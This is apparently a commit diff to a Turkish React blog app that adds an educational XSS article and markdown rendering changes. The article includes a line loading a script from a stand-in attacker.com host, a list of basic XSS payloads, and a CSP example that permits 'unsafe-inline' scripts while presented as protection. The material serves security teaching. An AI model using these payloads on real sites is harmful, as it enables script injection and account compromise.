

Before and after one commit to b-tekinli/yazi-dunyasi, a React (Vite) app: page /post/1 in a window 1280 px wide. Shown: the part 1898-2832 px from the top of the page. Before the commit the page ends 2352 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add markdown rendering to blog post
Render the blog post content in markdown format when the "Oku" button is clicked.

```diff
--- a/src/pages/BlogPost.tsx
+++ b/src/pages/BlogPost.tsx
@@ -76,11 +76,99 @@ function validateInput(input) {
 document.cookie = "sessionId=abc123; HttpOnly; Secure; SameSite=Strict";
 \`\`\`
 
+## Gerçek Dünya Örnekleri
+
+### Facebook'ta XSS Zafiyet Örneği (2011)
+Facebook'ta keşfedilen bir XSS açığı, kullanıcıların profil sayfalarına zararlı kod yerleştirmelerine olanak tanıyordu:
+
+\`\`\`javascript
+// Örnek saldırı vektörü
+javascript:void($.getScript('http://attacker.com/malicious.js'))
+\`\`\`
+
+### Twitter'da Self-XSS Saldırısı
+Kullanıcıları, konsola kod yapıştırmaya ikna eden sosyal mühendislik saldırısı:
+
+\`\`\`javascript
+// Kullanıcıları kandırmaya yönelik kod
+console.log("Bu kodu çalıştırırsanız hesabınız hack'lenebilir!");
+\`\`\`
+
+## İleri Seviye Korunma Teknikleri
+
+### 1. DOM Purify Kullanımı
+\`\`\`javascript
+import DOMPurify from 'dompurify';
+
+// Güvenli HTML temizleme
+const cleanHTML = DOMPurify.sanitize(dirtyHTML);
+document.getElementById('content').innerHTML = cleanHTML;
+\`\`\`
+
+### 2. React'ta Güvenli Rendering
+\`\`\`jsx
+// Güvenli - React otomatik olarak escape eder
+function SafeComponent({ userInput }) {
+  return <div>{userInput}</div>;
+}
+
+// Tehlikeli - dangerouslySetInnerHTML kullanımı
+function DangerousComponent({ htmlContent }) {
+  return (
+    <div
+      dangerouslySetInnerHTML={{
+        __html: DOMPurify.sanitize(htmlContent)
+      }}
+    />
+  );
+}
+\`\`\`
+
+### 3. Express.js'te CSP Middleware
+\`\`\`javascript
+const helmet = require('helmet');
+
+app.use(helmet.contentSecurityPolicy({
+  directives: {
+    defaultSrc: ["'self'"],
+    scriptSrc: ["'self'", "'unsafe-inline'"],
+    styleSrc: ["'self'", "'unsafe-inline'"],
+    imgSrc: ["'self'", "data:", "https:"],
+  },
+}));
+\`\`\`
+
+## Penetration Testing için XSS Payloadları
+
+> **Uyarı:** Bu payloadlar sadece eğitim amaçlıdır ve sadece sahip olduğunuz sistemlerde test edilmelidir.
+
+\`\`\`javascript
+// Basit alert payload'u
+<script>alert('XSS')</script>
+
+// Image tag ile payload
+<img src=x onerror=alert('XSS')>
+
+// SVG ile payload
+<svg onload=alert('XSS')>
+
+// Form ile payload
+<form><button formaction=javascript:alert('XSS')>Test</button></form>
+\`\`\`
+
 ## Sonuç
 
-XSS saldırıları ciddi güvenlik tehditleri oluşturabilir. Düzenli güvenlik testleri, input validation ve CSP gibi koruma mekanizmalarını implement ederek bu tehditlere karşı korunabiliriz.
+XSS saldırıları ciddi güvenlik tehditleri oluşturabilir. Düzenli güvenlik testleri, input validation, CSP gibi koruma mekanizmalarını implement ederek bu tehditlere karşı korunabiliriz.
 
-**Unutmayın:** Güvenlik, bir hedef değil sürekli bir süreçtir.`
+### Önemli Hatırlatmalar:
+
+1. **Hiçbir zaman kullanıcı girdisine güvenmeyin**
+2. **Her zaman input validation yapın**
+3. **Output encoding kullanın**
+4. **Content Security Policy implementasyonu yapın**
+5. **Düzenli güvenlik testleri gerçekleştirin**
+
+**Unutmayın:** Güvenlik, bir hedef değil sürekli bir süreçtir. Her zaman güncel kalın ve yeni tehditlere karşı hazırlıklı olun.`
   };
 
   const getCategoryColor = (category: string) => {
@@ -179,15 +267,18 @@ XSS saldırıları ciddi güvenlik tehditleri oluşturabilir. Düzenli güvenlik
                 <div className="prose prose-lg max-w-none">
                   <ReactMarkdown
                     components={{
-                      code(props) {
-                        const {children, className, ...rest} = props;
+                      code({ children, className, ...rest }) {
                         const match = /language-(\w+)/.exec(className || '');
                         return match ? (
                           <SyntaxHighlighter
-                            style={oneDark as any}
+                            style={oneDark}
                             language={match[1]}
                             PreTag="div"
-                            {...rest}
+                            customStyle={{
+                              margin: '1.5rem 0',
+                              borderRadius: '0.5rem',
+                              fontSize: '0.875rem'
+                            }}
                           >
                             {String(children).replace(/\n$/, '')}
                           </SyntaxHighlighter>
@@ -202,6 +293,14 @@ XSS saldırıları ciddi güvenlik tehditleri oluşturabilir. Düzenli güvenlik
                       h3: ({children}) => <h3 className="text-xl font-bold text-gray-900 mt-4 mb-2">{children}</h3>,
                       p: ({children}) => <p className="text-gray-700 leading-relaxed mb-4">{children}</p>,
                       strong: ({children}) => <strong className="font-bold text-gray-900">{children}</strong>,
+                      blockquote: ({children}) => (
+                        <blockquote className="border-l-4 border-blue-500 pl-4 italic text-gray-600 my-4 bg-blue-50 py-2">
+                          {children}
+                        </blockquote>
+                      ),
+                      ul: ({children}) => <ul className="list-disc list-inside mb-4 space-y-1">{children}</ul>,
+                      ol: ({children}) => <ol className="list-decimal list-inside mb-4 space-y-1">{children}</ol>,
+                      li: ({children}) => <li className="mb-1 text-gray-700">{children}</li>,
                     }}
                   >
                     {post.content}
```
